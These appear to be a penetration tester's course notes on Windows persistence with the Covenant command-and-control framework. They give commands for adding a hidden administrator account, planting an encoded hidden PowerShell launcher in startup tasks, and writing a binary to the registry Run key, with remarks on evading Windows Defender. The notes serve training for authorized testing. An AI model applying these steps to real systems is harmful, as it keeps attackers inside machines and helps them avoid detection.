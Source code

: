 # Persistence

Here we assume we have a shell with administrative privileges on the target

## Create a new user

### Covenant

- Select Interact in your grunt
- Use `shellcmd net users username password /add` (Note: for a real context engagement we need to make a safe password and a recognizable username such as the name of the company we work for)
- we can check that the user has been successfully added using `shell net users`
- Now we need to add our user to the administrators group using `shell net localgroup administrators username /add`

## Startup Persistence

### Covenant

- This method will ibject a payload in the startup tasks
- In your grunt go to the tab Task in the GruntTask list choose `PersistStartup`
- You should see this in the Payload input: `powershell -Sta -Nop -Window Hidden -EncodedCommand <blah>` replace the blah with a powershell encoded launcher and click on Task
- If we restart the target machine and login again there we should get our shell back

***Note: Windows Defender is really efficient in detecting this so you might have to try different things for AV evasion***

## Autorun Persistence

### Covenant

- Go to launcher, select `Binary Launcher` Generate one and Download it
- Go back to your high integrity grunt, go to the task tab
- In the GruntTack Select `PersistAutorun`, choose a directory in where to upload the binary
- Go to the interact tab type Upload put the Directory in the file path and select the bin file you download previously
- You can check if the bin was successfuly added to the Registry using this cmd: `GetRegistryKey HCKU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`
- Once you restart you should have a shell back

***Note: Windows Defender is really efficient in detecting this so you might have to try different things for AV evasion***


## Resources

- [TCM security Academy -  Movement pivoting and persistence for pentesters and ethical hacker](https://academy.tcm-sec.com/p/movement-pivoting-and-persistence-for-pentesters-and-ethical-hackers)
